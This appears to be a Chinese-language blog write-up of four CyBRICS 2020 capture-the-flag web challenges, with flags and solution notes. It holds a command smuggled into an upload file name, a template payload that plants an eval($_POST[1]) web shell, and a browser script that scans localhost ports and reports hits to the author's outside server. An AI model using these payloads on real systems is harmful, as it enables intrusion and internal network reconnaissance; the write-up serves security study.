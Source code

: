 date: 2020-07-29
categories:
- 比赛
tags:
- web
- ctf
- wp
title: CyBRICS2020
---
#  CyBRICS  2020



## Hunt

用burp修改返回包

flag:`cybrics{Th0se_c4p7ch4s_c4n_hunter2_my_hunter2ing_hunter2}`



## Gif2png

源代码已上传

```
if not bool(re.match("^[a-zA-Z0-9_\-. '\"\=\$\(\)\|]*$", file.filename)):
    exit()
...
def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS
allowed_file(file.filename)
...
command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
```

`filename="'$(sleep 5)'a.gif"`来执行命令

cybrics{imagesaresocoolicandrawonthem}



## woc

![image631](https://raw.githubusercontent.com/Explorersss/photo/master/20200726002857.png)

calc.php


```php=
if (!preg_match('#(?=^([ %()*+\-./]+|\d+|M_PI|M_E|log|rand|sqrt|a?(sin|cos|tan)h?)+$)^([^()]*|([^()]*\((?>[^()]+|(?4))*\)[^()]*)*)$#s', $field)) {
        $value = "BAD";
    }else{
    $value = eval("return $field;");
}
```


```
9999999999999999999:1.0E+25
1/0:INF
0/0:NAN
log(0):-INF
```


newtemplate.php

```php=
        if (strpos($html, '<?') !== false) {
            $error = "Bad chars";
            break;
        }
        ...
        file_put_contents("calcs/$userid/templates/$uuid.html", $html);
```

calc.php
```php=
file_put_contents("calcs/$userid/$calc.php", "<script>var preloadValue = <?=json_encode((string)($field))?>;</script>\n" . file_get_contents("inc/calclib.html") . file_get_contents("calcs/$userid/templates/$template.html"));
```

html转php处，利用`/*`破坏结构，`file_get_contents("calcs/$userid/templates/$template.html"))`处`*/`收尾，于是绕过成功


新建template:
```
*/)).eval($_POST[1])?>
$requiredBlocks = [
            'id="back"',
            'id="field" name="field"',
            'id="digit0"',
            'id="digit1"',
            'id="digit2"',
            'id="digit3"',
            'id="digit4"',
            'id="digit5"',
            'id="digit6"',
            'id="digit7"',
            'id="digit8"',
            'id="digit9"',
            'id="plus"',
            'id="equals"',
        ];
```

向calc post:
`field=1/*&share=1`



flag:cybrics{5aMe_7h1ng_W3_d0_3Ve5y_n16ht_P1nKY.Try_2_t4k3_0vEr_t3h_w0RLd}

##  Developer's Laptop 

看题目样子是xss题?SSRF?


浏览器信息：HeadlessChrome/79.0.3945.79 

填写脚本：
```javascript=
a=document.getElementsByClassName("form-control");a[1].value="WQLSaidXUtQAfD6ptJc7Yg";a[0].value="http://ccreater.top:60000";
```

返回包
```
HEAD / HTTP/1.1
Host: ccreater.top:60000
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.79 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Access-Control-Request-Method: POST
Origin: prod.free-design-feedback-cybrics2020.ctf.su
Referer: http://prod.free-design-feedback-cybrics2020.ctf.su

```


等等开发人员的电脑？肯定一堆服务，内网扫描！

http服务扫描：
```htmlmixed=
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
</head>
<body>
    
<script>
var from = 1;
var complete = true;
var clear = false;
function check(text){
    var linkEl = document.head.querySelector('link[href*="'+text+'"');
    var cssLoaded = Boolean(linkEl.sheet);
    linkEl.addEventListener('load', function () {
        console.log(text)
        // log
		fetch("http://ccreater.top:60010/log.php?log="+text)
			.then(r=>r.text())
			.then(d=>{console.log("log success")})
		// log end
    });
}
function clearstyle(clear_from ,clear_to){
	clear = true;
	console.log("clear task start");
	while(clear_to<=clear_from){
            document.head.querySelector('link[href$=":'+clear_to+'"').remove();
			clear_to++;
    }
	clear = false;
	console.log("clear task end");
}
function make(text){
    head = document.getElementsByTagName('head')[0];
	var port = text;
    var url = "http://127.0.0.1:"+port,
    link = document.createElement('link');
    link.rel = "stylesheet";
    link.href = url;
    head.appendChild(link);
    check(text);
}
async function scan(){
	var to = from + 80 > 65535 ? 65535 : from + 80;
	for(var i=from;i<to;i++){
		make(String(i));
	}
	from +=80;
	setTimeout(()=>{clearstyle(from,to);},5000);
};

async function listener (){
	console.log("listener works,from:"+from+",complete:"+complete);
	if(from < 65535){
		setTimeout(listener,5000);
		if(complete && !clear){
			console.log("new task!");
			scan()
				.then(()=>{complete = true;})
			complete = false;
		}
	}
	
}
listener()
</script>
</body>
</html>

```



虽然我猜到了有内网服务但是到最后我还是没有扫到。。

脚本在本地是可以跑的，但是服务器上就不行，可能是因为有时间限制吧，遗憾。